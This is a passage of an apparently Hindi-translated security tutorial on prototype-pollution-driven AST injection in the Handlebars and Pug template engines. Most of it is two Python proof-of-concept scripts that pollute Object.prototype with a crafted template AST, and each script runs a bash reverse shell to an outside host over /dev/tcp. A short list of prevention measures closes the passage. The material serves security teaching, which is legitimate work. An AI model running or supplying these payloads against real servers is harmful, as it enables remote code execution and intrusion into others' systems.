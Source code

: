 [https://github.com/hughsk/flat/issues/105](https://github.com/hughsk/flat/issues/105)
```python
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
"__proto__.type": "Program",
"__proto__.body": [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}],
"loc": {
"start": 0,
"end": 0
}
}]
})

# execute
requests.get(TARGET_URL)
```
### पग

अधिक जानकारी के लिए [https://blog.p6.is/AST-Injection/#Pug](https://blog.p6.is/AST-Injection/#Pug) पर देखें।
```python
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
"__proto__.block": {
"type": "Text",
"line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}
})

# execute
requests.get(TARGET_URL)
```
## रोकथाम के लिए मैं क्या कर सकता हूँ?

* `Object.freeze` का उपयोग करके प्रॉपर्टीज को फ्रीज करें (`Object.prototype`)
* एप्लिकेशन के स्कीमा के अनुसार JSON इनपुट्स पर वैलिडेशन करें
* असुरक्षित तरीके से रिकर्सिव मर्ज फंक्शन्स का उपयोग न करें
* प्रोटोटाइप चेन को प्रभावित करने से बचने के लिए `Object.create(null)` जैसे प्रोटोटाइप प्रॉपर्टीज के बिना ऑब्जेक्ट्स का उपयोग करें
* `Object` के बजाय `Map` का उपयोग करें
* लाइब्रेरीज के लिए नए पैचेस को नियमित रूप से अपडेट करें
